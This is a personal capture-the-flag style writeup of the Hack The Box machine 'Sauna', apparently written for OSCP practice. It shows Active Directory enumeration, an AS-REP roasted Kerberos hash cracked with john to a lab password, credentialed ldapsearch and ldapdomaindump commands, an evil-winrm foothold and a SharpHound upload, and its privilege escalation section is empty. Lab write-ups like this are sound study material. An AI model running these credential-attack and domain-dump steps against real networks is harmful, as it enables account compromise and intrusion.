



# Sauna 
Name: Sauna
Date:  
Difficulty:  Easy
Description:  
Better Description:  
Goals:  OSCP Prep
Learnt:

## Recon


```bash
smbclient -L 10.129.102.151 -U guest -p ""
Password for [WORKGROUP\guest]:
session setup failed: NT_STATUS_ACCOUNT_DISABLED
```

Discovery nmap script has an ldap enumeration script:
```
dnsHostName: SAUNA.EGOTISTICAL-BANK.LOCAL
defaultNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL

```

Potential usernames


```
namingContexts:DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingContexts:DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Tried ldapsearch and configuring dns to no avail - found issues with my ldapsearch and my cheatsheets as when I went to the Ippsec Video to learn some Vim Macro to making variation in the user.txt. As I had ran out of options. As this was The first time I have used macros in vim it felt amazing. Ippsec does rock and I did not spoil anything else for myself. 

## Exploit
Reran impacket:


```
$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:0d526e4163679689d1f3c08cd3255f71$28b2f1c3af5686c1252160027864620ab54a478a3a05aa662d28de284ca5efe3d49e05323ea2a27befb986b1418b0799990bfcdcdf6331020e82ab1b71c226900b851a85ca491f15b4047f2292133b7693f337db62528242c79b925a77662025afa8b9e04ea38ca7ad5057e2c1a713b0f7a616491d3e29b88ba2d67029701c359ad13432a9ba1b3df902f6f4bc4b31ded2d37675bd4dfeaf41cb169e92a1a92e4ebab68b24331c3ef01cfbee28b33c245c6456ba5349d20541aba4518ac6c25a66349c8c463a1aa972eec56b6c80b91947cca0c6a6d46e24246f892ba10da8717544cd698528d99ef47acbb79bf742fe9e80c72eb0118f95d1899e1d493a41a1
```

```bash
john hash --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL)
```



Reran `enum4linux` with fsmith credentials.
Used Ldapdomaindump to dump the domain details for bloodhound
```bash
ldapdomaindump -u 'EGOTISTICAL-BANK\fsmith'Sauna-Writeup -p 'Thestrokes23' 10.129.95.180 -o ldapdomaindump-output
# ldd2bloodhound -d ldapdomaindump-output/*.json
# The above is old but did it by mistake...
# Figured out why ldapsearch was not workind changed my ldap cheatsheet :)
ldapsearch -LLL -H ldap://10.129.95.180 -x -D 'EGOTISTICALBANK\fsmith' -w 'Thestrokes23' -b '' -s base '(objectClass=*)' | tee -a ldapsearch-objects
ldapsearch -H ldap://10.129.95.180 -x -D 'EGOTISTICALBANK\fsmith' -w 'Thestrokes23' -b "CN=Domain Admins,CN=Users,DC=EGOTISTICAL,DC=BANK" | tee -a ldapsearch-dom-admins
```

## Foothold
Discovered [go-windapsearch](https://github.com/ropnop/go-windapsearch) to automate `ldapsearch`, but went straight for `evil-winrm`



I then use `evil-winrm upload` for SharpHound.zip then 
```powershell
powershell -c "Expand-Archive SharpHound.zip SharpHound
SharpHound.exe -c all
```


## PrivEsc

      
